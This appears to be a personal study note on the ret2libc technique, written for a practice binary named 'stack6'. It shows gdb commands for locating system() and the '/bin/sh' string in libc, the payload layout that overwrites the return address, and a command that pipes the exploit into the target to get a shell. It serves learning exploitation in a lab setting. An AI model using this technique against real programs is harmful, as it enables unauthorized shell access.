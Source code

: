 #### __RETURN TO LIBC__
**Known as 'ret2libc'**

```text
Target		: system("/bin/sh") -> Execute shell command using 'system()'.
```
---

#### __LET UNDERSTAND WHAT HAPPEN WHEN SYSTEM IS CALLEDC__

**NOTE: A function points to an address where its INSTRUCTIONS live.**
```text
First, get the address of 'system'
(gdb) p system

Second, before 'eip' jump to 'system' address, the argument "/bin/sh" is pushed into the stack as a string.
eip		: instruction pointer.
```
...
```armasm
...	
mov DWORD PTR [esp], address1 <- contain the string "/bin/sh"
call address2 <system@plt>
...
```
...
```bash
(gdb) x/s address1
address1	: "/bin/sh"
```
###### **LET MAKE A PAYLOAD TO REPRODUCE THE STACK STATE AFTER *CALL* 'SYSTEM' WHICH EXECUTE A BASH INSTRUCTION**

```text
First, let find a string "/bin/sh" to put into the stack. We can search for it in the libc library.

	* first, find the library address.
	> (gdb) info proc map				: print address of memory regions and libraries.

	> (gdb) find libc_address +9999999, "/bin/sh"	: find start_addr, +len, val  <- search for 'val' in the memory region.
	  - find returns "find_addr".
	> x/s find_addr
	ALERT!!! The find technic doesn't work, or it does. I don't care at this point. USE the following technic:

        [shell]$ string -a -t x /lib/libc-2.11.2.so | grep "/bin/sh"  : Search for "/bin/sh" and return its location inside 'libc' as hex address [x]
	> x/s libc_address + hex_addr			       : Add library address to hex_address return by 'grep' to get the real location.
	   - real_address:	"/bin/sh"

We already get the address of 'system' with "p system" <- print 'system' address
```

#### __PAYLOADC__

```text
payload = padding + system_address + return_addr_after_system + bin_sh  

ONE MORE TIME STACK STATE: Before the 'call system' instruction is executed, its parameter "/bin/sh" is store into the stack.
			 : Then, as for all 'call', the return address is pushed into the stack as well.
			 : Using a payload instead of the 'call' instruction, the addr of 'system' come before 'return_add' and 'param_addr'.
			 : The padding puts the 'system' address at the location pointed by "eip" <- INSTRUCTION POINTER. 


DON'T FORGET TO KEEP THE INPUT PIPE OPEN WITH 'cat'
(python exploit.py ; cat) | /repertory/stack6
```






